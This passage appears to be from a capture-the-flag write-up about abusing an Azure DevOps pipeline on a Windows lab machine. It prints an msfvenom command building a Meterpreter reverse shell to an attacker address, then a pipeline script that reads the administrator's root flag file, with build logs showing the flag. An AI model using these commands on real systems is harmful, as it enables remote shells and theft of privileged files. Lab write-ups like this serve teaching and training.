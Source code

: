 ```
##[section]Finishing: noraj
```

Seems to be the wrong architecture.

So I created a 32 bits reverse shell instead of a 64 bits one:

```
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows --encoder generic/none LHOST=10.10.14.174 LPORT=9999 -f raw > noraj.exe
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none succeeded with size 341 (iteration=0)
generic/none chosen with final size 341
Payload size: 341 bytes
```

Same error again, ok let's forget the shell, let's just display the root
flag.

```yaml
trigger:
- master

pool: 'Setup'

steps:
- script: type C:\Users\Administrator\Desktop\root.txt
  displayName: 'noraj'
```

Here are the logs of our pipeline task build:

```
##[section]Starting: noraj
==============================================================================
Task         : Command line
Description  : Run a command line script using Bash on Linux and macOS and cmd.exe on Windows
Version      : 2.151.1
Author       : Microsoft Corporation
Help         : https://docs.microsoft.com/azure/devops/pipelines/tasks/utility/command-line
==============================================================================
Generating script.
Script contents:
type C:\Users\Administrator\Desktop\root.txt
========================== Starting Command Output ===========================
##[command]"C:\Windows\system32\cmd.exe" /D /E:ON /V:OFF /S /C "CALL "w:\agents\agent11\_work\_temp\d9359887-a4ac-49ad-9865-3e9b9024f109.cmd""
c8d6aeda24c4e17abcc72f26dedbe919
##[section]Finishing: noraj
```
